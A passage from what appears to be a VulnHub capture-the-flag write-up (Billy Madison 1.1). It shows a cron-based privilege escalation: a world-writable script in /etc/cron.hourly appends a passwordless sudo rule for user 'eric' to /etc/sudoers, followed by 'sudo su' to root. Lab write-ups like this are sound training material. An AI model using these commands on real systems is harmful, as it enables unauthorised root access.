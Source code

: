 3\. Used this to create a empty file at file path `/etc/cron.hourly/testing` with `chmod 777` permissions. We then added commands to this new file to add user `eric` to `/etc/sudoers`:  
```
touch testing
chmod 777 testing
echo -e '#!/bin/bash\necho "eric ALL=(ALL) NOPASSWD:ALL" >>/etc/sudoers' >/etc/cron.hourly/testing
```

![writeup.privesc.steps.3.1](/static/files/posts_vulnhub_billymadison1dot1/screenshot14.png.webp)  

4\. We had to wait for an hour for the `cron` job to execute and after that running the `sudo -l` command confirmed that `sudoers` permissions are now enabled for user `eric`. We then changed to user `root`:  
```
sudo -l
sudo su
```
